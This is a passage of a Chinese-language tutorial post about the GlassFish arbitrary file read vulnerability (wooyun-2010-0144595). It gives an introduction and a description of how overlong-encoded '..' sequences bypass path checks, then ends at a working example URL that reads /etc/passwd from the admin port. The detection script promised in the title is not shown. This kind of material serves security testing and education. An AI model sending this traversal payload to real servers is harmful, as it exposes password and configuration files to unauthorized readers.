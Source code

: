 # 原创
：  快速检测 GlassFish 任意文件读取漏洞的 Python 脚本

# 快速检测 GlassFish 任意文件读取漏洞的 Python 脚本

**部分数据来源：**ChatGPT

#### 引言

        当下，互联网安全问题正愈发严重，黑客利用各种漏洞进行攻击的频率也在持续增加。在2015年10月，一位名为“路人甲”的安全研究员在乌云上公开了一个名为“应用服务器glassfish存在通用任意文件读取漏洞”的漏洞（编号：wooyun-2010-0144595），该漏洞可以导致攻击者可以读取网站上任意文件，包括配置文件、密码文件等敏感信息。[应用服务器glassfish任意文件读取漏洞 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/42277.html)

### 漏洞描述

        该漏洞主要影响使用Java应用服务器GlassFish的网站，攻击者可以通过访问特定的URL来读取任意文件，包括敏感数据文件。具体而言，在发送请求时，攻击者可以将路径参数中的特殊字符进行编码，从而绕过路径校验，读取任意文件。

#### 例如，以下URL即可触发该漏洞：

url最后的/etc/passwd就是要读取的文件

```
http://localhost:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```
